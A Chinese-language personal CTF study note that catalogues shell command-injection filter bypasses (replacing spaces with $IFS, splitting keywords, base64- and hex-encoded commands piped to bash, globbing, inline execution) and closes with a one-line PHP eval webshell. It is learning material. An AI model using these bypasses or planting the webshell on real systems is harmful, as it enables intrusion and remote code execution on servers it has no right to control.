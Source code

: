 ```yaml
---
title: 20241209CTF学习笔记6
date: 2024-12-09
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true












---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第24天

[[toc]]

- 视频地址【[传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第6章：ByPass

### 过滤空格

如果空格被禁止了，那就需要用一些其他的方法

```shell
# 这种情况展示不了flag，只会报找不到cat.php的文件
cat$IFSflag.php
# 使用以下方式可以不用空格
cat${IFS}flag.php
# <这个意思是导入
cat<flag.php
# 用逗号实现了空格的功能，需要用{}括起来
{cat,flag.php}
# 需要看编码支不支持
cat%20flag.php
# %09代表tab键
cat%09flag.php
```

### 过滤某些关键字

比如cat、flag等

```shell
# 用反斜线转义，对字母本身做转义还等于本身
cat fla\g.php

# 可以用两个单引号隔开
cat fla''g.php

# base64编码绕过 需要将cat flag.php或者flag.txt进行base64加密，
echo "Y2F0IGZsYWcudHh0" | base64 -d | bash

# hex编码绕过 
# 对于给定的十六进制字符串 "63617420666c61672e747874"，经过 xxd -r -p 解码后得到的文本内容是 "cat flag.txt"，然后通过管道传递给 bash 去执行，查看flag.txt文件
echo  echo "63617420666c61672e747874" | xxd -r -p | bash

# 用[]去匹配
cat fl[a]g.txt

# 用[]匹配时，如果有两个字母，表示不包含两边
cat fla[f-h].txt

# 用*来匹配，代表任意长度字符
cat fla*

# 用问号匹配 正常ctf环境直接cat flag即可，将g替换为问号，问号是单个长度的任意
cat flag.tx?

# 从a—z逐行执行
cat fl{a..z}g

# 内联执行 第一行是找到flag.txt的文件 第二号反引号先执行里边的命令 然后把里边命令的结果给cat
ls | grep fla
cat `ls | grep fla`
# 或者有其他的内联执行
cat $(ls |grep fla)

# 用变量
a=fl;b=ag;cat $a$b.txt
```

> 在Python中，如果过滤了加号，不让使用加号时，我们可以使用如下特性绕过
>
> ```
> 'a'+'b'会输出ab
> 'a''b'也会输出ab
> ```

### 附加题目：

GXYCTF2019 Ping Ping Ping

### 代码执行漏洞

##### 题目练习

eval()函数，以下是一个一句话木马，0就是webshell的密码，蚁剑帮我们执行了很多命令，用eval去执行。

eval()函数在 PHP 中可以把传入的字符串当作 PHP 代码来执行。

```php
<?php eval($_POST[0]);?>
```

